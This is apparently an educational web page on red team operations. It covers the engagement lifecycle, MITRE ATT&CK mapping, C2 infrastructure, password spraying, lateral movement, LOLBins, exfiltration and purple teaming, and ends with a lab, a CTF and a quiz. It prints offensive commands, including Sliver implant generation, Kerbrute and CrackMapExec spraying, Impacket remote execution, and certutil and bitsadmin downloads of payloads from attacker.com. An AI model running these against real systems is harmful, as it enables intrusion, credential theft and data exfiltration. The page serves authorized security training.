







# Red Team Operations

Red teaming is the practice of simulating real-world adversaries to test an organization's detection and response capabilities. Unlike penetration testing, which focuses on finding as many vulnerabilities as possible, red teaming focuses on achieving specific objectives (exfiltrate PII, access financial systems, compromise domain) while evading detection. The goal is not to break in — it is to test whether the blue team can catch you.

This page covers the full red team engagement lifecycle, from scoping and planning through initial access, command and control, lateral movement, and objective completion. Every technique is mapped to MITRE ATT&CK for structured communication.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Active Directory](/cybersecurity/active-directory) | [Blue Team & SOC](/cybersecurity/blue-team-soc) | [Bug Bounty](/cybersecurity/bug-bounty)

::: danger Authorization Required
Red team operations are adversarial simulations conducted under strict legal agreements. Every technique described here is illegal without explicit authorization. Red team engagements require signed Rules of Engagement (RoE), defined scope, emergency contacts, and legal review. Never conduct red team activities without proper authorization.
:::

---

## Red Team vs Pentest vs Vulnerability Assessment

These terms are often confused. Understanding the differences is critical for scoping engagements.

| Aspect | Vulnerability Assessment | Penetration Test | Red Team |
|--------|------------------------|-----------------|----------|
| **Objective** | Find all known vulnerabilities | Exploit vulnerabilities, prove impact | Test detection and response |
| **Scope** | Broad, automated scanning | Defined targets, manual exploitation | Objective-based, full organization |
| **Stealth** | Not required | Minimal evasion | Maximum stealth required |
| **Duration** | Days | 1-3 weeks | 2-6 months |
| **Blue team aware?** | Yes | Usually yes | No (except designated contacts) |
| **Methodology** | CVE scanning, configuration review | OWASP, PTES, OSSTMM | MITRE ATT&CK, Cyber Kill Chain |
| **Output** | Vulnerability list with CVSS | Proof-of-concept exploits | Narrative report of attack path |
| **Cost** | $5K-$20K | $15K-$80K | $50K-$300K+ |



---

## The Cyber Kill Chain & MITRE ATT&CK

### Cyber Kill Chain

Lockheed Martin's Cyber Kill Chain describes the stages of an intrusion. Red teams use it as a planning framework.



### MITRE ATT&CK Framework

MITRE ATT&CK is the industry standard for categorizing adversary behavior. Every red team operation should map findings to ATT&CK tactics and techniques.

| Tactic | ID | Description | Example Techniques |
|--------|----|-------------|-------------------|
| **Reconnaissance** | TA0043 | Gather target information | T1593 Search websites, T1589 Gather identity info |
| **Resource Development** | TA0042 | Prepare attack infrastructure | T1583 Acquire infrastructure, T1587 Develop capabilities |
| **Initial Access** | TA0001 | Gain entry to the network | T1566 Phishing, T1190 Exploit public-facing app |
| **Execution** | TA0002 | Run malicious code | T1059 Command scripting, T1204 User execution |
| **Persistence** | TA0003 | Maintain access | T1053 Scheduled task, T1547 Boot autostart |
| **Privilege Escalation** | TA0004 | Gain higher privileges | T1068 Exploit for priv esc, T1055 Process injection |
| **Defense Evasion** | TA0005 | Avoid detection | T1027 Obfuscation, T1070 Indicator removal |
| **Credential Access** | TA0006 | Steal credentials | T1003 OS credential dumping, T1558 Steal Kerberos tickets |
| **Discovery** | TA0007 | Learn about the environment | T1087 Account discovery, T1046 Network service scanning |
| **Lateral Movement** | TA0008 | Move through the network | T1021 Remote services, T1550 Use alternate auth |
| **Collection** | TA0009 | Gather target data | T1005 Data from local system, T1114 Email collection |
| **Exfiltration** | TA0010 | Steal data | T1048 Exfil over alternative protocol, T1567 Exfil to cloud |
| **Impact** | TA0040 | Disrupt operations | T1486 Data encrypted for impact, T1489 Service stop |

---

## Red Team Infrastructure

Professional red team infrastructure separates attack stages to prevent burn of the entire operation if one component is detected.



### Infrastructure Checklist

```bash
# Domain categorization — age domains 6+ months, categorize as legitimate
# Purchase expired domains with good reputation

# HTTPS redirector with Apache mod_rewrite
# Redirect only valid C2 traffic to team server, block everything else
<IfModule mod_rewrite.c>
    RewriteEngine On
    RewriteCond %{REQUEST_URI} ^/api/v2/status$ [NC]
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0.*Windows NT 10.0" [NC]
    RewriteRule ^.*$ https://teamserver.internal:443%{REQUEST_URI} [P]
    RewriteRule ^.*$ https://legitimate-website.com [R=302,L]
</IfModule>

# DNS redirector with socat
socat UDP4-LISTEN:53,fork UDP4:teamserver.internal:53

# SSH tunneling for operator access
ssh -L 50050:127.0.0.1:50050 -N -f operator@teamserver.internal
```

---

## Initial Access Techniques

### Phishing Campaigns

Phishing remains the most common initial access vector for red teams.



```bash
# HTML Smuggling — payload is assembled client-side from base64
# This bypasses email gateway scanning because no executable is in the email

# Gophish setup for phishing campaigns
./gophish  # Start Gophish server on port 3333

# GoPhish configuration:
# 1. Create sending profile (SMTP server)
# 2. Create email template (with tracking pixel)
# 3. Create landing page (credential harvester or payload delivery)
# 4. Create user group (targets)
# 5. Launch campaign
```

### Password Spraying

Password spraying tests a few common passwords against many accounts, avoiding account lockout.

```bash
# Spray against Office 365 / Azure AD
# Use tools like MSOLSpray, SprayingToolkit, or TREVORspray

# Spray against internal AD (low and slow)
crackmapexec smb 10.10.10.1 -u users.txt -p 'Spring2026!' --continue-on-success

# Common spray passwords (aligned with password policy)
# Season+Year+! (Spring2026!, Winter2025!)
# Company+Year (Acme2026, CorpName2026!)
# Month+Year (March2026!, January2026!)

# Enumerate valid usernames first via Kerbrute
kerbrute userenum --dc 10.10.10.1 -d corp.local usernames.txt

# Spray with Kerbrute (faster, uses Kerberos pre-auth)
kerbrute passwordspray --dc 10.10.10.1 -d corp.local valid_users.txt 'Spring2026!'
```

::: warning Lockout Awareness
Always check the domain password policy before spraying:
- Observation window (usually 30 minutes)
- Lockout threshold (often 5-10 attempts)
- Spray **one password per observation window** to avoid lockouts
:::

---

## Command & Control (C2) Concepts

C2 frameworks provide the communication channel between the operator and implants on compromised hosts. Understanding C2 architecture is essential for both attack and detection.

### C2 Framework Comparison

| Framework | Type | Protocol Support | Key Feature | Detection Difficulty |
|-----------|------|-----------------|-------------|---------------------|
| **Cobalt Strike** | Commercial | HTTPS, DNS, SMB, TCP | Malleable C2 profiles | High (widely studied) |
| **Sliver** | Open source | mTLS, WireGuard, HTTPS, DNS | Implant obfuscation | Medium-High |
| **Havoc** | Open source | HTTPS, SMB | Modern UI, extensible | Medium |
| **Mythic** | Open source | Various (agent-dependent) | Multi-agent platform | Medium |
| **Brute Ratel** | Commercial | HTTPS, DNS, SMB | EDR evasion focused | High |

### C2 Communication Patterns



### C2 Profiles and Evasion

```bash
# Malleable C2 profiles (Cobalt Strike) shape traffic to look legitimate
# Example: traffic disguised as jQuery CDN requests

# Key C2 evasion techniques:
# 1. Domain fronting — C2 traffic routed through CDN (increasingly blocked)
# 2. Legitimate service abuse — C2 over Slack, Teams, Google Sheets
# 3. DNS C2 — data encoded in DNS queries (slow but stealthy)
# 4. SMB named pipes — lateral C2 without leaving the network
# 5. Sleep + jitter — avoid regular beacon intervals

# Sliver — generate implant
sliver > generate --mtls teamserver.com --os windows --arch amd64 --format exe --save implant.exe

# Sliver — generate stager (smaller initial payload)
sliver > generate stager --lhost teamserver.com --lport 443 --protocol tcp --save stager.bin
```

---

## Lateral Movement Patterns

After initial access, red teams move through the network toward their objectives.



```bash
# PsExec-style lateral movement (Impacket)
impacket-psexec corp.local/admin:'P@ssw0rd'@10.10.10.5

# WMI execution (Impacket)
impacket-wmiexec corp.local/admin:'P@ssw0rd'@10.10.10.5

# WinRM (Evil-WinRM)
evil-winrm -i 10.10.10.5 -u admin -p 'P@ssw0rd'

# DCOM execution (Impacket)
impacket-dcomexec corp.local/admin:'P@ssw0rd'@10.10.10.5

# SMB lateral movement with CrackMapExec
crackmapexec smb 10.10.10.0/24 -u admin -p 'P@ssw0rd' -x "whoami"
```

### Living-off-the-Land (LOLBins)

Using built-in Windows tools to avoid detection. These binaries are trusted by EDR and application whitelisting.

| Binary | Legitimate Use | Red Team Abuse |
|--------|---------------|----------------|
| `certutil.exe` | Certificate management | Download files, encode/decode payloads |
| `mshta.exe` | HTML application host | Execute HTA payloads |
| `rundll32.exe` | Run DLL functions | Execute malicious DLLs |
| `regsvr32.exe` | Register COM objects | Execute remote scriptlets |
| `msbuild.exe` | Build .NET projects | Execute inline C# tasks |
| `installutil.exe` | Install .NET services | Execute code via uninstall method |
| `bitsadmin.exe` | Background transfers | Download payloads |

```powershell
# Download file with certutil (LOLBin)
certutil.exe -urlcache -split -f http://attacker.com/payload.exe C:\Windows\Temp\payload.exe

# Execute via msbuild (bypass application whitelisting)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe payload.xml

# Download with bitsadmin
bitsadmin /transfer job /download /priority high http://attacker.com/payload.exe C:\Windows\Temp\payload.exe
```

---

## Data Exfiltration

### Exfiltration Channels

| Channel | Bandwidth | Stealth | Detection Method |
|---------|-----------|---------|-----------------|
| **HTTPS to cloud storage** | High | Medium | SSL inspection, domain reputation |
| **DNS tunneling** | Very low (< 1 Kbps) | High | DNS query volume, entropy analysis |
| **ICMP tunneling** | Low | Medium | ICMP payload analysis |
| **Steganography** | Low | Very high | Statistical analysis of images |
| **Email (SMTP)** | Medium | Medium | DLP, attachment scanning |
| **Physical (USB)** | High | Variable | Endpoint DLP, USB controls |
| **Legitimate services** | High | High | Cloud access security broker (CASB) |

```bash
# DNS exfiltration (encode data in DNS queries)
# Data is base32-encoded as subdomains: DATA.attacker.com
# Each query carries ~63 bytes of data

# Exfiltration over HTTPS to legitimate cloud services
# Red teams abuse services like Slack, Discord, Pastebin, Google Drive
# These are difficult to block because they are legitimate business tools

# Data staging before exfiltration
# Compress and encrypt to avoid DLP detection
7z a -p'ExfilPassword123' -mhe=on staged_data.7z sensitive_documents/

# Split large files for DNS exfiltration
split -b 50k staged_data.7z chunk_
```

---

## Purple Team Collaboration

Purple teaming combines red and blue teams to maximize learning. The red team attacks while the blue team attempts to detect in real-time, then both teams review together.



### Purple Team Exercise Template

| Step | Red Team | Blue Team | Joint |
|------|----------|-----------|-------|
| **Pre-exercise** | Prepare TTPs, map to ATT&CK | Review current detections | Agree on scope and techniques |
| **Execution** | Execute technique (e.g., Kerberoasting) | Monitor SIEM, EDR, network | Real-time communication |
| **Detection check** | Confirm execution artifacts | Report: detected/not detected | Gap analysis |
| **Remediation** | Suggest evasion variations | Write/tune detection rules | Validate new detection |
| **Documentation** | Log TTPs and tools used | Document detection gaps | Shared report with metrics |

### Atomic Red Team

Atomic Red Team provides small, discrete tests mapped to MITRE ATT&CK. Ideal for purple team exercises.

```powershell
# Install Atomic Red Team
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics

# Execute a specific ATT&CK technique test
Invoke-AtomicTest T1003.001  # OS Credential Dumping: LSASS Memory
Invoke-AtomicTest T1059.001  # PowerShell execution
Invoke-AtomicTest T1053.005  # Scheduled Task persistence

# List available tests for a technique
Invoke-AtomicTest T1003.001 -ShowDetails

# Cleanup after testing
Invoke-AtomicTest T1003.001 -Cleanup
```

---

## Red Team Reporting

A red team report tells the story of the engagement as a narrative, not just a list of vulnerabilities.

### Report Structure

| Section | Content |
|---------|---------|
| **Executive Summary** | 1-page overview for leadership: objective, outcome, key risk |
| **Scope & Methodology** | Rules of engagement, ATT&CK techniques used, timeline |
| **Attack Narrative** | Chronological story of the engagement with timestamps |
| **Detection Timeline** | When (if) the blue team detected each action |
| **Findings** | Specific vulnerabilities exploited, mapped to ATT&CK |
| **Detection Gaps** | Techniques that were not detected |
| **Recommendations** | Prioritized remediation with effort estimates |
| **Technical Appendix** | IOCs, logs, screenshots, tool configurations |

::: tip Metrics That Matter
- **Time to Initial Access** — How long until first foothold
- **Time to Domain Admin** — Time from initial access to DA
- **Time to Objective** — Time to achieve stated goal
- **Detection Coverage** — % of techniques detected by blue team
- **Mean Time to Detect (MTTD)** — Average time from action to alert
- **Mean Time to Respond (MTTR)** — Average time from alert to containment
:::

---

## OPSEC for Red Teams

Operational security determines whether the engagement succeeds or gets burned early.

| OPSEC Rule | Why | Implementation |
|------------|-----|----------------|
| **Never use personal infrastructure** | Attribution to the operator | Dedicated VPS, burner domains |
| **Separate C2 from phishing** | Burning phishing infrastructure burns everything | Separate servers, domains, IPs |
| **Vary sleep and jitter** | Regular intervals are trivially detectable | 60-300s sleep, 20-40% jitter |
| **Minimize tool touches** | Every tool leaves artifacts | Use built-in OS tools (LOLBins) |
| **Stage operations across time** | Rapid actions look automated | Spread operations over hours/days |
| **Clean up artifacts** | Post-engagement hygiene | Remove implants, scheduled tasks, accounts |
| **Avoid burning zero-days** | Preserve valuable capabilities | Use known exploits first |

---

## Further Reading

- [Active Directory Attacks & Defense](/cybersecurity/active-directory) — AD-specific attack techniques
- [Blue Team & SOC Operations](/cybersecurity/blue-team-soc) — The defender's perspective
- [Web App Pentesting](/cybersecurity/web-app-pentesting) — Web-based initial access
- [Malware Analysis](/cybersecurity/malware-analysis) — Understanding post-exploitation tooling
- [Security Certifications](/cybersecurity/security-certifications) — CRTO, OSCP, OSCE3

---

::: tip Key Takeaway
- Red teaming tests detection and response, not just vulnerability count — the goal is to measure whether the blue team can catch a realistic adversary
- C2 infrastructure must be layered with redirectors separating the operator from the team server, so that burning one component does not expose the entire operation
- Purple team exercises maximize ROI by combining red team attacks with real-time blue team detection review, closing gaps immediately
:::

::: details Hands-On Lab
**Lab: Red Team Infrastructure and Phishing Campaign**

1. Set up a basic C2 infrastructure: deploy Sliver on a VPS, configure an HTTPS listener with a legitimate-looking domain
2. Create an HTTPS redirector using Apache `mod_rewrite` that forwards only valid C2 traffic to the team server
3. Set up GoPhish on a separate server for phishing campaigns
4. Create a phishing email template that delivers an HTML smuggling payload
5. Generate a Sliver implant and test the full chain: phishing email delivers payload, payload connects to C2 through the redirector
6. Execute basic post-exploitation: run `whoami`, enumerate the network, and collect system information
7. On a separate monitoring VM, set up Suricata and attempt to detect your C2 traffic
:::

::: details CTF Challenge
**Challenge: The Invisible Operator**

You are conducting a red team engagement. Your initial phishing campaign succeeded and you have a beacon on an employee's workstation. The SOC has already detected one of your C2 domains and blocked it. You need to re-establish communication and achieve the objective: access the finance share at `\\fileserver\finance$`.

**Hints:**
1. You set up multiple C2 channels during planning — check your backup DNS channel
2. The employee's workstation has cached Kerberos tickets
3. The finance share requires membership in the `Finance` group, but the user has `GenericAll` permission on a Finance group member

::: details Answer
Switch to the DNS C2 channel that uses a different domain. Use the existing Kerberos tickets to authenticate. Run BloodHound to discover that the compromised user has GenericAll on `svc_finance`, a member of the Finance group. Reset `svc_finance`'s password or add the compromised user to the Finance group. Access `\\fileserver\finance$` and exfiltrate the target file. Flag: `CTF{resilient_c2_ad_abuse_chain}`.
:::
:::

::: warning Common Misconceptions
- **"Red teaming is just advanced penetration testing"** — Penetration testing finds vulnerabilities; red teaming tests detection and response against realistic adversary behavior. The methodologies, timelines, and objectives are fundamentally different.
- **"Cobalt Strike is a hacking tool"** — Cobalt Strike, Sliver, and other C2 frameworks are adversary simulation tools designed for authorized security testing. They replicate real threat actor capabilities.
- **"Zero-days are essential for red team success"** — Most successful red team engagements use phishing, password spraying, and misconfiguration exploitation — not zero-days. Real adversaries do the same.
- **"LOLBins are undetectable"** — Living-off-the-Land binaries are harder to detect but not invisible. EDR tools track process trees, command-line arguments, and behavioral patterns that expose LOLBin abuse.
:::

::: details Quiz
**1. What is the primary difference between a red team engagement and a penetration test?**

a) Red teams use more tools
b) Red teams test detection and response capabilities while pentests focus on finding vulnerabilities
c) Pentests take longer
d) Red teams only target web applications

::: details Answer
b) Red teams simulate real adversaries to test whether the blue team can detect and respond. Pentests focus on finding and exploiting as many vulnerabilities as possible within scope.
:::

**2. Why do red teams use redirectors in their infrastructure?**

a) To make the C2 server faster
b) To protect the team server — if a redirector is burned, the operation continues
c) To encrypt traffic
d) To bypass firewalls

::: details Answer
b) Redirectors are sacrificial servers that forward valid C2 traffic to the team server. If the blue team blocks a redirector's IP, the operator deploys a new one without losing the team server.
:::

**3. What does "sleep + jitter" mean in C2 communication?**

a) The operator takes breaks during the engagement
b) The implant waits a randomized interval between beacons to avoid regular-interval detection
c) The C2 server goes offline periodically
d) The payload is encrypted with a rotating key

::: details Answer
b) Sleep defines the base interval between beacons (e.g., 60 seconds), and jitter adds randomness (e.g., 25% means actual interval is 45-75 seconds), preventing detection by pattern analysis.
:::

**4. What framework provides a common language for describing adversary behavior?**

a) OWASP Top 10
b) MITRE ATT&CK
c) ISO 27001
d) NIST CSF

::: details Answer
b) MITRE ATT&CK categorizes adversary tactics and techniques, providing a shared language for red teams, blue teams, and threat intelligence to describe and compare adversary behavior.
:::

**5. What is Atomic Red Team used for?**

a) Developing exploits
b) Running small, discrete tests mapped to MITRE ATT&CK techniques for purple team exercises
c) Scanning for vulnerabilities
d) Generating phishing emails

::: details Answer
b) Atomic Red Team provides small, self-contained tests for specific ATT&CK techniques. Purple teams use them to verify detection coverage one technique at a time.
:::
:::

> **One-Liner Summary:** Red teaming is not about breaking in — it is about proving whether anyone would notice if a real adversary did.
